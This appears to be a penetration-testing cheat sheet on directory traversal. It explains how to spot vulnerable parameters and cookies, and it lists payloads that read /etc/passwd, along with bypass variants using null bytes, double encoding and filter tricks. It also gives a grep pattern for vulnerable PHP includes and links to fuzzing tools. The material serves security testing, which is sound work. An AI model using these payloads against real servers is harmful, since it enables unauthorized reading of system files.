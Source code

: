 # Directory Traversal

> Directory Traversal aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system.

## Identifying Vulnerability

We can identify this type of vulnerability by inspecting the URL query strings or the body in search of values that reference files. Example:

```bash
.php?file=$FILE
.cgi?home=$FILE
.jsp?item=$FILE
```

Cookies can also be used  by the web application for the dynamic generation of pages or templates:

```bash
Cookie: ID=d9ccd3f4f9f18cc1:.....TEMPLATE=$TEMPLATE
Cookie: USER=1826cc8f:PSTYLE=$FILE
```
_____

## Exploiting Vulnerability

To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

```bash
#Parameter:
.php?file=../../../../etc/passwd
#Cookie:
Cookie: USER=24dedbeef44:PSTYLE=../../../../etc/passwd
```

_____

## Bypass Restrictions

#### Traversal sequences stripped non-recursively:

```bash
.php?page=....//....//....//etc/passwd
.php?page=....\/....\/....\/etc/passwd
.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```

#### Null byte (%00):

Bypass the append more chars at the end of the provided string (bypass of: $_GET['param']."php"):

```bash
.php?page=../../../etc/passwd%00
```
**Note:** Solved since PHP 5.4

#### Encoding:

You could use non-standard encondings like double URL encode (and others):

```bash
.php?page=..%252f..%252f..%252fetc%252fpasswd
.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
.php?page=%252e%252e%252fetc%252fpasswd
.php?page=%252e%252e%252fetc%252fpasswd%00
```
#### From existent folder:

Maybe the back-end is checking the folder path:

```bash
.php?page=utils/scripts/../../../../../etc/passwd
```

#### Filter bypass tricks:

```bash
.php?page=....//....//etc/passwd
.php?page=..///////..////..//////etc/passwd
.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
.php?page=/var/www/../../etc/passwd
```

_____

## Gray-Box Testing

Since gray box testing allows review of the source code, it is possible to search the input vectors more easily and accurately. Use simple tools (such as the grep command) to search for one or more common patterns within the application code: inclusion functions/methods, filesystem operations, and so on.

**Vulnerable functions:**

```bash
PHP: include(), include_once(), require(), require_once(), fopen(), readfile(), ...
JSP/Servlet: java.io.File(), java.io.FileReader(), ...
ASP: include file, include virtual, ...
```

```bash
PHP Regex: (include|require)(_once)?\s*['"(]?\s*\$_(GET|POST|COOKIE)
```


## Tools

 [DotDotPwn - The Directory Traversal Fuzzer](https://github.com/wireghoul/dotdotpwn)
 [Sqlmap just for LFI/RFI bugs instead of sql injection](https://github.com/kurobeats/fimap)
 
 ## Wordlists
 
 [Path Traversal Fuzz Strings (from WFuzz Tool)](https://github.com/xmendez/wfuzz/blob/master/wordlist/Injections/Traversal.txt)
 [More Traversal Strings](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-nix.txt)
 

